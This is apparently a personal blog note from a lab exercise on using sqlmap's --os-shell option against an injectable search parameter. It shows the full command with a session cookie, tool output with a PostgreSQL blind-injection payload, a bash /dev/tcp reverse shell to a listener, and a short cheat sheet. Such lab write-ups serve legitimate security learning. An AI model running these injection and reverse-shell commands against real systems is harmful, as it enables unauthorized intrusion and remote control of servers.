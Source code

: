 ```yaml
---
title: "Tool: SQLMap"
date: 2021-01-02T02:34:30-04:00
categories:
  - Blog
  - Tool
tags:
  - shell
  - tool
  - commands
  - SQL
  - sqlmap
---
```



This is the command string to test if a SQL backed web page is vulnerable to SQL injection:

Needs:
1. the injection field = '?search=1234' in the url
2. the session cookie = from inspecting the page - application tab - storage - cookie
3. the command extention = '--os-shell'

The Command:
'sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=k3ivqlrh8f7i68p3vis6pmjsal" --os-shell,

```yaml
──(kali㉿kali)-[~]
└─$ ──(kali㉿kali)-[~]
└─$ sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=k3ivqlrh8f7i68p3vis6pmjsal" --os-shell
        ___
       __H__                                                         
 ___ ___[']_____ ___ ___  {1.4.12#stable}                            
|_ -| . [(]     | .'| . |                                            
|___|_  [(]_|_|_|__,|  _|                                            
      |_|V...       |_|   http://sqlmap.org                          

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:42:21 /2021-01-01/

[20:42:21] [INFO] resuming back-end DBMS 'postgresql' 
[20:42:21] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=a' AND (SELECT (CASE WHEN (6996=6996) THEN NULL ELSE CAST((CHR(113)||CHR(83)||CHR(65)||CHR(77)) AS NUMERIC) END)) IS NULL-- IJNJ


os-shell> bash -c 'bash -i >& /dev/tcp/10.10.14.87/4321 0>&1'
do you want to retrieve the command standard output? [Y/n/a] 
```

You can use any OS command here:

ls
id
uname -a
whoami

in the example I passes in a net cat shell back to another terminal I had running a nc listener 'nc -nlvp 4321'
'bash -c 'bash -i >& /dev/tcp/10.10.14.87/4321 0>&1'

Note the session was not stable but I was able to keep it open long enough to open another connection not bases on sqli


[SQLMap Cheat Sheet :][upgrade-term]

Sample:

Simple Usage
If you don’t know anything about the target site then use the normal command first, Observe if the sqlmap found something juicy for you

sqlmap -u “https://target_site.com/page/”
Automatic GET request parameter
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2”


[upgrade-term]: https://thedarksource.com/sqlmap-cheat-sheet/
